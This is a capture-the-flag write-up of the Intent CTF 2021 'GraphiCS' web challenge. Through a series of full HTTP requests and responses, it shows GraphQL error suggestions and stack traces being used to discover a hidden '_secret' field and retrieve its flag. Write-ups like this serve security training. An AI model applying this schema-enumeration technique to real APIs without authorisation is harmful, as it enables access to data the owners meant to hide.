


# Intent CTF 2021 - Writeups - GraphiCS

Category: Web, Points: 100



# GraphiCS  - Solution

Let's browse to the web page from challenge description [https://graphics.chal.intentsummit.org/](https://graphics.chal.intentsummit.org/):



By intercepting the requests using [BurpSuite](https://portswigger.net/burp) we can see the following request:
```http
POST /api/v1/ HTTP/2
Host: graphics.chal.intentsummit.org
Cookie: intent-ctf-session=2a914d13fe5006489d427bf984179053
Content-Length: 149
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: */*
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://graphics.chal.intentsummit.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://graphics.chal.intentsummit.org/
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7

{"operationName":"ExampleQuery","variables":{},"query":"query ExampleQuery {\n  talks {\n    time\n    title\n    speaker\n    __typename\n  }\n}\n"}
```

Response:
```http
HTTP/2 200 OK
Date: Sat, 20 Nov 2021 18:00:17 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 524
Access-Control-Allow-Origin: *
Etag: W/"20c-X5X2IrzJeDhL6RjtjdSnG7Dy9qk"
Strict-Transport-Security: max-age=15724800; includeSubDomains

{"data":{"talks":[{"time":"8:00AM","title":"Introduction Talk","speaker":"Lavi Lazarovitz","__typename":"Talk"},{"time":"10:15AM","title":"Why Attackers in Code Packages are Getting a Pass","speaker":"Tzachi Zorenshtain","__typename":"Talk"},{"time":"11:30AM","title":"Automated 0-day Discovery in 2021 – Squashing the Low-Hanging Fruit","speaker":"Shachar Menashe","__typename":"Talk"},{"time":"12:45AM","title":"How to Systematically Find 0-days in Open-Source Packages","speaker":"Alex Livshiz","__typename":"Talk"}]}}

```

So this is a [GraphQL](https://graphql.org/) endpoint, We need to extract the flag from there.

If we are simply trying to get ```flag``` by sending the following request:
```http
POST /api/v1/ HTTP/2
Host: graphics.chal.intentsummit.org
Cookie: intent-ctf-session=2a914d13fe5006489d427bf984179053
Content-Length: 90
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: */*
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://graphics.chal.intentsummit.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://graphics.chal.intentsummit.org/
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7

{"operationName":"ExampleQuery","variables":{},"query":"query ExampleQuery { flag  }\n"}

```

We get:
```http
HTTP/2 400 Bad Request
Date: Sat, 20 Nov 2021 18:32:29 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 1127
Access-Control-Allow-Origin: *
Etag: W/"467-XlomUsulqClrJfPE/sc+5q682NA"
Strict-Transport-Security: max-age=15724800; includeSubDomains

{"errors":[{"message":"Cannot query field \"flag\" on type \"Query\".","extensions":{"code":"GRAPHQL_VALIDATION_FAILED","exception":{"stacktrace":["GraphQLError: Cannot query field \"flag\" on type \"Query\".","    at Object.Field (/usr/src/app/node_modules/graphql/validation/rules/FieldsOnCorrectTypeRule.js:48:31)","    at Object.enter (/usr/src/app/node_modules/graphql/language/visitor.js:323:29)","    at Object.enter (/usr/src/app/node_modules/graphql/utilities/TypeInfo.js:370:25)","    at visit (/usr/src/app/node_modules/graphql/language/visitor.js:243:26)","    at validate (/usr/src/app/node_modules/graphql/validation/validate.js:69:24)","    at validate (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/requestPipeline.js:185:39)","    at processGraphQLRequest (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/requestPipeline.js:90:34)","    at processTicksAndRejections (node:internal/process/task_queues:96:5)","    at async processHTTPRequest (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/runHttpQuery.js:187:30)"]}}}]}

```

Let's try to get ```secret``` field:
```http
POST /api/v1/ HTTP/2
Host: graphics.chal.intentsummit.org
Cookie: intent-ctf-session=2a914d13fe5006489d427bf984179053
Content-Length: 92
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: */*
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://graphics.chal.intentsummit.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://graphics.chal.intentsummit.org/
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7

{"operationName":"ExampleQuery","variables":{},"query":"query ExampleQuery { secret  }\n"}

```

Response:
```http
HTTP/2 400 Bad Request
Date: Sat, 20 Nov 2021 18:33:20 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 1183
Access-Control-Allow-Origin: *
Etag: W/"49f-FCY3/YWJsddLRccDF5s4ytJtQa4"
Strict-Transport-Security: max-age=15724800; includeSubDomains

{"errors":[{"message":"Cannot query field \"secret\" on type \"Query\". Did you mean \"_secret\"?","extensions":{"code":"GRAPHQL_VALIDATION_FAILED","exception":{"stacktrace":["GraphQLError: Cannot query field \"secret\" on type \"Query\". Did you mean \"_secret\"?","    at Object.Field (/usr/src/app/node_modules/graphql/validation/rules/FieldsOnCorrectTypeRule.js:48:31)","    at Object.enter (/usr/src/app/node_modules/graphql/language/visitor.js:323:29)","    at Object.enter (/usr/src/app/node_modules/graphql/utilities/TypeInfo.js:370:25)","    at visit (/usr/src/app/node_modules/graphql/language/visitor.js:243:26)","    at validate (/usr/src/app/node_modules/graphql/validation/validate.js:69:24)","    at validate (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/requestPipeline.js:185:39)","    at processGraphQLRequest (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/requestPipeline.js:90:34)","    at processTicksAndRejections (node:internal/process/task_queues:96:5)","    at async processHTTPRequest (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/runHttpQuery.js:187:30)"]}}}]}

```

According to the response, Let's try to get ```_secret``` field:
```http
POST /api/v1/ HTTP/2
Host: graphics.chal.intentsummit.org
Cookie: intent-ctf-session=2a914d13fe5006489d427bf984179053
Content-Length: 93
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: */*
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://graphics.chal.intentsummit.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://graphics.chal.intentsummit.org/
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7

{"operationName":"ExampleQuery","variables":{},"query":"query ExampleQuery { _secret  }\n"}

```

Response:
```http
HTTP/2 400 Bad Request
Date: Sat, 20 Nov 2021 18:33:51 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 1243
Access-Control-Allow-Origin: *
Etag: W/"4db-xXUSR2t6rs3rXiz/5CIbD+3nF6g"
Strict-Transport-Security: max-age=15724800; includeSubDomains

{"errors":[{"message":"Field \"_secret\" of type \"[Secret]\" must have a selection of subfields. Did you mean \"_secret { ... }\"?","extensions":{"code":"GRAPHQL_VALIDATION_FAILED","exception":{"stacktrace":["GraphQLError: Field \"_secret\" of type \"[Secret]\" must have a selection of subfields. Did you mean \"_secret { ... }\"?","    at Object.Field (/usr/src/app/node_modules/graphql/validation/rules/ScalarLeafsRule.js:40:31)","    at Object.enter (/usr/src/app/node_modules/graphql/language/visitor.js:323:29)","    at Object.enter (/usr/src/app/node_modules/graphql/utilities/TypeInfo.js:370:25)","    at visit (/usr/src/app/node_modules/graphql/language/visitor.js:243:26)","    at validate (/usr/src/app/node_modules/graphql/validation/validate.js:69:24)","    at validate (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/requestPipeline.js:185:39)","    at processGraphQLRequest (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/requestPipeline.js:90:34)","    at processTicksAndRejections (node:internal/process/task_queues:96:5)","    at async processHTTPRequest (/usr/src/app/node_modules/apollo-server/node_modules/apollo-server-core/dist/runHttpQuery.js:187:30)"]}}}]}

```

We can see that if we are sending ```_secret``` field we must have a selection of subfields, Let's try ```flag``` as subfield:
```http
POST /api/v1/ HTTP/2
Host: graphics.chal.intentsummit.org
Cookie: intent-ctf-session=2a914d13fe5006489d427bf984179053
Content-Length: 101
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: */*
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://graphics.chal.intentsummit.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://graphics.chal.intentsummit.org/
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7

{"operationName":"ExampleQuery","variables":{},"query":"query ExampleQuery { _secret { flag } }\n"}

```

Response:
```http
HTTP/2 200 OK
Date: Sat, 20 Nov 2021 18:35:02 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 60
Access-Control-Allow-Origin: *
Etag: W/"3c-0gW0hyiG3r77bNm0vGOCVIlUQgk"
Strict-Transport-Security: max-age=15724800; includeSubDomains

{"data":{"_secret":[{"flag":"INTENT{d1d_y0u_m34n_flag}"}]}}

```

And we get the flag ```INTENT{d1d_y0u_m34n_flag}```.